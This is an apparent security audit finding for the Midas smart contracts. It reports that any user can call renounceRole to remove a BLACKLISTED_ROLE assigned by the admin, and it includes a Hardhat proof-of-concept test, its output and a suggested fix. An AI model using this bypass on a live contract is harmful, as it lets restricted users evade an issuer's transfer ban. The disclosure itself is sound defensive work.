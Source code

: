 Loud Turquoise Yak

high

# User Can Self-Revoke Role

## Summary

A user can self-revoke a role assigned by the admin, including the `BLACKLISTED_ROLE ` role.

## Vulnerability Detail

The project uses the OpenZeppelin library version 4.9.x for permission management. The main contract responsible for permissions is `WithMidasAccessControl`, which is inherited by `Greenlistable` and `Blacklistable`. These contracts are initialized with an instance of the `MidasAccessControl` contract, which inherits from `AccessControlUpgradeable` in the OpenZeppelin library. Roles are managed by the admin.

`WithMidasAccessControl -> Greenlistable/Blacklistable -> MidasAccessControl -> AccessControlUpgradeable`

The issue lies in the `renounceRole` function of the `AccessControlUpgradeable` contract, which allows the sender to remove any assigned role from themselves.

```solidity
File: midas-contracts/node_modules/@openzeppelin/contracts-upgradeable/access/AccessControlUpgradeable.sol
170:     /**
171:      * @dev Revokes `role` from the calling account.
172:      *
173:      * Roles are often managed via {grantRole} and {revokeRole}: this function's
174:      * purpose is to provide a mechanism for accounts to lose their privileges
175:      * if they are compromised (such as when a trusted device is misplaced).
176:      *
177:      * If the calling account had been revoked `role`, emits a {RoleRevoked}
178:      * event.
179:      *
180:      * Requirements:
181:      *
182:      * - the caller must be `account`.
183:      *
184:      * May emit a {RoleRevoked} event.
185:      */
186:     function renounceRole(bytes32 role, address account) public virtual override {              //@audit public access
187:         require(account == _msgSender(), "AccessControl: can only renounce roles for self");
188: 
189:         _revokeRole(role, account);
190:     }

File: midas-contracts/node_modules/@openzeppelin/contracts-upgradeable/access/AccessControlUpgradeable.sol
241:     /**
242:      * @dev Revokes `role` from `account`.
243:      *
244:      * Internal function without access restriction.
245:      *
246:      * May emit a {RoleRevoked} event.
247:      */
248:     function _revokeRole(bytes32 role, address account) internal virtual {
249:         if (hasRole(role, account)) {
250:             _roles[role].members[account] = false;
251:             emit RoleRevoked(role, account, _msgSender());
252:         }
253:     }
```

## Impact

Any user can call the `renounceRole` function in the `MidasAccessControl` contract to remove any role assigned by the admin. While removing the `GREENLISTED_ROLE` role will only prevent the user from making deposits and redemptions, removing the `BLACKLISTED_ROLE` role will allow the user to transfer `mTBILL` tokens, which the admin has explicitly restricted.

## Code Snippet

```solidity
File: midas-contracts/contracts/mTBILL.sol
086:     /**
087:      * @dev overrides _beforeTokenTransfer function to ban
088:      * blacklisted users from using the token functions
089:      */
090:     function _beforeTokenTransfer(
091:         address from,
092:         address to,
093:         uint256 amount
094:     )
095:         internal
096:         virtual
097:         override(ERC20PausableUpgradeable)
098:         onlyNotBlacklisted(from)             //@audit
099:         onlyNotBlacklisted(to)				  //@audit
100:     {
101:         ERC20PausableUpgradeable._beforeTokenTransfer(from, to, amount);
102:     }
```

https://github.com/sherlock-audit/2024-05-midas/blob/main/midas-contracts/contracts/mTBILL.sol#L98-L99


https://github.com/sherlock-audit/2024-05-midas/blob/main/midas-contracts/contracts/DepositVault.sol#L93

https://github.com/sherlock-audit/2024-05-midas/blob/main/midas-contracts/contracts/RedemptionVault.sol#L63

### PoC

```js
    it.only('User Can Self-Revoke BLACKLISTED_ROLE', async () => {
      const { accessControl, blackListableTester, owner, regularAccounts } =
        await loadFixture(defaultDeploy);
      await blackList(
        { blacklistable: blackListableTester, accessControl, owner },
        regularAccounts[0],
      );
      console.log(
        'Is blacklisted',
        await accessControl.hasRole(
          await blackListableTester.BLACKLISTED_ROLE(),
          regularAccounts[0].address,
        ),
      );

      await accessControl
        .connect(regularAccounts[0])
        .renounceRole(
          await blackListableTester.BLACKLISTED_ROLE(),
          regularAccounts[0].address,
        );

      console.log(
        'Is blacklisted',
        await accessControl.hasRole(
          await blackListableTester.BLACKLISTED_ROLE(),
          regularAccounts[0].address,
        ),
      );
    });
  });
```

```shell
➜  midas-contracts git:(main) ✗ yarn test --no-compile
yarn run v1.22.21
$ hardhat test --no-compile
{ FORKING_NETWORK: undefined }


  Blacklistable
    addToBlackList
Is blacklisted true
Is blacklisted false
      ✔ User Can Self-Revoke BLACKLISTED_ROLE (7223ms)


  1 passing (7s)

✨  Done in 19.13s.
```


## Tool used

Manual Review

## Recommendation

Users should be prevented from renouncing assigned roles, either entirely or for specific roles.

Example implementation for the `BLACKLISTED_ROLE` role:

```solidity
function renounceRole(bytes32 role, address account) public override {
    require(role != BLACKLISTED_ROLE, "Cannot renounce blacklisted role");
    super.renounceRole(role, account);
}
```